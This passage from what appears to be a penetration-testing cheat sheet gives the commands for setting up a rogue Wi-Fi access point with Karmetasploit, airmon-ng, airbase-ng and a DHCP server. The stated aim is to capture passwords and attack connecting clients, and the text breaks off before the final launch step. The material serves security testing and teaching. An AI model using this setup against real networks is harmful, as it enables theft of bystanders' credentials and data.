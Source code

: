 ```
dicom: medical image
http: web document
imf: email contents
smb: Windows network share file
tftp: Unsecured file
```

## Rogue APs with Karmetasploit

Karmetasploit is a great function within Metasploit, allowing you to fake access points, capture passwords, harvest data, and conduct browser attacks against clients.

Install Karmetasploit configuration:

```
root@RoseSecurity:~# wget https://www.offensive-security.com/wp-content/uploads/2015/04/karma.rc_.txt
root@RoseSecurity:~# apt update
```

Install and configure sqlite and DHCP server:

```
root@RoseSecurity:~# apt -y install isc-dhcp-server
root@RoseSecurity:~# vim /etc/dhcp/dhcpd.conf
root@RoseSecurity:~# apt -y install libsqlite3-dev
root@RoseSecurity:~# gem install activerecord sqlite3
```

Now we are ready to go. First off, we need to locate our wireless card, then start our wireless adapter in monitor mode with airmon-ng. Afterwards we use airbase-ng to start a new wireless network.

```
# Locate interface
root@RoseSecurity:~# airmon-ng

# Start monitoring
root@RoseSecurity:~# airmon-ng start wlan0

# Start AP
root@RoseSecurity:~# airbase-ng -P -C 30 -e "Fake AP" -v wlan0mon

# Assign IP to interface
root@RoseSecurity:~# ifconfig at0 up 10.0.0.1 netmask 255.255.255.0
```

Before we run our DHCP server, we need to create a lease database, then we can get it to listening on our new interface.

```
root@RoseSecurity:~# touch /var/lib/dhcp/dhcpd.leases
root@RoseSecurity:~# dhcpd -cf /etc/dhcp/dhcpd.conf at0
```

Run Karmetasploit:
